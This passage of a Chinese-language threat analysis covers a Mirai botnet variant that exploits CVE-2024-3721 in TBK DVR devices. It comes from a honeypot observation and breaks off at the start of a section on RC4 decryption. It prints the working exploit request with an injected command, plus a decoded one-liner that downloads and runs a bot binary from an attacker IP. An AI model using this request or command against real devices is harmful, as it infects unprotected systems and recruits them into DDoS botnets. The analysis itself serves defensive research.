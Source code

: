 #  最新分析 | Mirai 利用 CVE-2024-3721 攻击 TBK DVR 设备  
白帽子左一  白帽子左一   2025-06-10 04:01  
  
   
  
扫码领资料  
  
获网安教程  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSFbaUgVwdsriauB77CgQS8lyBNAxtx9IMqJQdhuuoITunu8A5Gp7kFjF7BvEXSaLMuDTYhnu7Nicghg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
**来****Track安全社区投稿~**  
  
**赢千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
  
滥用已知的安全漏洞在易受攻击的系统上部署机器人是一种广为人知的问题。许多自动化机器人会持续扫描互联网上的服务器和设备，寻找已知漏洞，特别是运行常见服务的设备。这些机器人通常携带针对 HTTP 服务的远程代码执行（RCE）漏洞利用程序，允许攻击者在 GET 或 POST 请求中嵌入 Linux 命令。  
  
我们最近在其中一个蜜罐服务中观察到利用   
CVE-2024-3721  
 进行机器人部署的行为。该变种机器人被证实是臭名昭著的   
Mirai 僵尸网络  
 的一部分，主要攻击基于 DVR 的监控系统。DVR 设备用于记录来自摄像头的数据，被众多厂商广泛使用，并且可以远程管理。本文将介绍该新型 Mirai 机器人的功能及其改进后的感染方式。  
# 利用方式  
  
在我们对 Linux 蜜罐系统日志的审查过程中，发现了一条与   
CVE-2024-3721  
 相关的异常请求行。该漏洞允许在未经授权的情况下，在 TBK DVR 设备上执行系统命令，利用的是一个特定的 POST 请求：  
```
"POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1" 200 1671 "-" "Mozila/5.0"
```  
  
该 POST 请求包含一个恶意命令，这是一个单行的 shell 脚本，用于在被攻陷的设备上下载并执行一个 ARM32 架构的二进制文件。  
```
cd /tmp; rm arm7; wget http://42.112.26[.]36/arm7; chmod 777 *; ./arm7 tbk
```  
  
通常，机器人感染过程会涉及 shell 脚本，最初会对目标设备进行勘测，以确定其系统架构并选择相应的二进制文件。然而，在本次攻击中，由于目标设备仅支持 ARM32 架构的二进制文件，因此无需进行侦察阶段。  
# 恶意程序植入 —— Mirai 变种  
  
Mirai 僵尸网络的源代码早在近十年前就已在互联网上公开，此后被多个网络犯罪团伙加以修改和适配，用于构建大规模的僵尸网络，主要用于 DDoS 攻击和资源劫持。  
  
此次 DVR 机器人同样是基于 Mirai 源码构建，但也包含了一些不同的功能，例如使用 RC4 进行字符串加密、虚拟机检测以及反仿真技术。  
### 数据解密  
  
该变种中的数据解密过程使用的是简化版的 RC4 算法。  
  